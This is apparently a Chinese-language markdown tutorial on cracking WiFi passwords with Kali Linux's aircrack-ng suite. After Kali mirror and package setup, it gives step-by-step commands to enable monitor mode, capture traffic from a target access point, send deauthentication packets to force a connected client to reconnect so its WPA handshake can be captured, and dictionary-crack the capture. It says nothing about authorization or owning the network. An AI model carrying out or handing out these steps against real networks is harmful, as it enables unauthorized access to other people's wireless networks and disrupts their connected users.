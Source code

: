 # Kali：Aircrack破解无线网络

## 导读

> 用Kail的Aircrack工具系统破解WiFi密码。

准备工作

```shell
# 用文本编辑器打开sources.list,手动添加更新源
leafpad /etc/apt/sources.list

# 更新源
# 阿里云
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
# 中科大
# deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
# deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
# 清华大学
# deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
# deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
# 官方源
#deb http://http.kali.org/kali kali-rolling main non-free contrib
#deb-src http://http.kali.org/kali kali-rolling main non-free contrib

# 清除缓存索引
apt-get clean

# 刷新源，获得最近的软件包的列表
apt-get update

# 更新现有的软件包
apt-get upgrade

# 根据依赖关系更新
apt-get dist-upgrade

# 安装rtl8812au网卡驱动
apt-get install realtek-rtl88xxau-dkms

# 安装Wicd网络管理器
apt-get install wicd

# 安装谷歌输入法
apt-get install fcitx fcitx-googlepinyin
```

1.结束进程

```shell
airmon-ng check kill
```

2.载入网卡

```shell
airmon-ng start wlan0（自己的网卡名）
```

3.建立监听

```shell
airodump-ng wlan0
```

4.模拟WiFi 信号

```shell
airodump-ng --ivs -w wifi-passwd --bssid WiFi的MAC -c ch wlan0

# 参数
–ivs ：指定生成文件的格式，这里格式是ivs（比如：abc.ivs）
-w ：指定文件的名称叫什么，这里叫wifi-pass
–bssid ：目标WiFi的MAC地址
-c ：指定我们模拟的WiFi的信道（ch）
```

5.攻击目标

```shell
aireplay-ng -0 20 -a WiFi的MAC -c 客户端的MAC wlan0

# 参数
-0 ：发送工具数据包的数量，这里是20个(无限次攻击改成0 )
-a ：指定目标AP的MAC地址
-c ：指定用户的MAC地址，（正在使用WiFi的客户端的MAC）
```

出现信息（WPA handshake）密码信息抓取成功，抓取到的密码默认保存在主目录中

6.破解密码文件

```shell
aircrack-ng wifi-passwd-01.ivs -w /mnt/hgfs/Share/word.txt

# 参数
wifi-pass-01.ivs ：密码文件
-w ： 指定密码字典
```
